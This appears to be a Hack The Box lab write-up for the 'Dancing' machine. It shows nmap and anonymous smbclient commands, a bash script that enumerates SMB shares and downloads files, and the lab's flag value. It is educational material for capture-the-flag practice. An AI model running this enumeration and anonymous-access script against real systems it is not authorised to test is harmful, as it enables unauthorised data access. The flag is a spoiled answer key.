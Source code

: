 # HTB “Dancing” SMB Exploit Write‑Up

## 1. Introduction
**Objective:** Exploit a misconfigured SMB share on Hack The Box’s “Dancing” machine to retrieve `flag.txt`.  

**Author:** keyfive5 / Obsidian Signal / MHZ

**Date:** 2025‑04‑19

---

## 2. Lab Environment
- **Attacker VM:** ParrotOS (10.10.14.12)  
- **Target IP:** 10.129.232.112  
- **Tools:**  
  - `nmap` v7.94SVN  
  - `smbclient`  
  - Bash shell  

---

## 3. Enumeration

### 3.1 Port Scan with Nmap

`nmap -sV 10.129.232.112 -oN nmap.txt`

### 3.2 SMB Share Enumeration

**List all SMB shares (anonymous):**

`smbclient -L //10.129.232.112 -N`

Shares discovered:

`
ADMIN$     Disk      Remote Admin
C$         Disk      Default share
IPC$       IPC       Remote IPC
WorkShares Disk      Custom share
`

---

## 4. Exploitation
### 4.1 Connecting to the Custom Share
We target `WorkShares` because it is custom and likely misconfigured:


`smbclient //10.129.232.112/WorkShares -N`

- The -N flag attempts an anonymous (empty‑password) login.
- Connection succeeds, dropping us into an smb: prompt.

### 4.2 File Exfiltration
Download worknotes.txt (lateral hints):
`
smb: \> cd Amy.J
smb: \Amy.J\> get worknotes.txt
`
`
Text of worknotes.txt:
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing
`

Retrieve flag.txt:
`
smb: \> cd James.P
smb: \James.P\> get flag.txt
`
Output:
`5f61c10dffbc77a704d76016a22f1664`

Verify flag:
`
cat flag.txt
#5f61c10dffbc77a704d76016a22f1664
`

## 5. Automation Script
File: scripts/enum-smb.sh

`
#!/usr/bin/env bash
# Usage: ./enum-smb.sh <TARGET_IP>

TARGET=$1

echo "[*] Running Nmap scan..."
nmap -sV $TARGET -oN nmap.txt

echo "[*] Enumerating SMB shares..."
smbclient -L //$TARGET -N -g | tee smb-list.txt

echo "[*] Connecting to WorkShares and pulling files..."
smbclient //$TARGET/WorkShares -N << 'EOF'
cd Amy.J
get worknotes.txt
cd ../James.P
get flag.txt
exit
EOF

echo "[*] Retrieved flag:"
cat flag.txt
`

## 6. Screenshots & GIFs

- `screenshots/nmap.png` — Nmap output showing ports 135, 139, 445.
- ![nmap](https://github.com/user-attachments/assets/79959daa-6725-47b3-afb8-d8a89c16a3eb)

  
- `screenshots/smb-exploit.gif` — GIF of smbclient session: listing shares, retrieving flag.txt.
- ![smb-exploit](https://github.com/user-attachments/assets/b4d2fe59-a7c8-4de6-93ca-d0746730950d)

---

## 7. Results
- Flag: `5f61c10dffbc77a704d76016a22f1664`

---

## 8. Lessons Learned
- Always enumerate custom shares (WorkShares, Public, etc.) for anonymous access.

- `smbclient -N` is a quick way to test guest/anonymous login.

- Automate enumeration with simple scripts to save time on repeat engagements.

- Misconfigurations persist: even administrative shares may be locked down, but custom shares often aren’t.

---

## 9. References
Hack The Box Academy – SMB Modules

`man smbclient`

Microsoft SMB Protocol Documentation


